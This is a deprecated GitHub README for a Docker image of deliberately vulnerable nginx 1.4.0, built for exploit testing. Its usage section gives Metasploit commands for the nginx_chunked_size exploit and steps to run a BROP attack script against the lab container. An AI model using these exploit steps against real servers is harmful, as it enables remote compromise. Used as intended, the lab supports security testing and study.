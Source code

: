 # DEPRECATION NOTICE

Please note that this repository has been deprecated and is no longer actively maintained by Polyverse Corporation.  It may be removed in the future, but for now remains public for the benefit of any users.

Importantly, as the repository has not been maintained, it may contain unpatched security issues and other critical issues.  Use at your own risk.

While it is not maintained, we would graciously consider any pull requests in accordance with our Individual Contributor License Agreement.  https://github.com/polyverse/contributor-license-agreement

For any other issues, please feel free to contact info@polyverse.com

---

# Vulnerable nginx 1.4.0 Docker image
## Docker Image
https://hub.docker.com/repository/docker/polyverse/vulnerable-nginx-1.4.0

## Usage
```
USAGE

    This project is of the familiar form:
        bash build.sh
        bash test.sh
        bash publish.sh

    After successful build.sh, you can run the container thus:
        docker run -it -p 80:80 --rm --name base-nginx-1.4.0-32 polyverse/vulnerable-nginx-1.4.0:base

    While it is running, it will be available on localhost thus:
         curl localhost:80

    This should display "Hello world!"

    At the same time, you can run metasploit-framework like this:

        docker run -it -p 4444:4444 --link base-nginx-1.4.0-32 metasploitframework/metasploit-framework

    Within Metasploit, you can exploit the vulnerable nginx thus:
        use exploit/linux/http/nginx_chunked_size
	set RHOSTS base-nginx-1.4.0
	set TARGET 0
        exploit

    Back on the terminal output of the vulnerable nginx server you should see stack smashing errors
    occuring as the Metasploit module brute-forces the stack canary. (TBD: The exploit still needs
    to be amended to include the locations of the gadgets as they happen to fall in base-nginx-1.4.0)


    There is also a 64 bit version made for this BROP attack: https://www.exploit-db.com/exploits/32277.
    This is the source of that exploit: http://www.scs.stanford.edu/brop (and a little bit newer).

    To try the BROP attack, start the 64 bit version thus:
        docker run -it -p 80:80 --rm --name base-nginx-1.4.0-64 507760724064.dkr.ecr.us-west-2.amazonaws.com/base-nginx-1.4.0

    Then, since you have access to the 64 nginx server on localhost:80, enter the directory BROP exploit and enter:
        ./brop.rb

    It'll grind a lot, you'll see timeout's and some other messages in the BROP windows as well as diagnostics in the BROP window.

    To run nginx using the debugger:
        # docker run --entrypoint /bin/bash --privileged -it --rm --name base-target polyverse/vulnerable-nginx-1.4.0:base
        # gdb
        gdb> start -g "daemon off;"
        gdb> continue
```
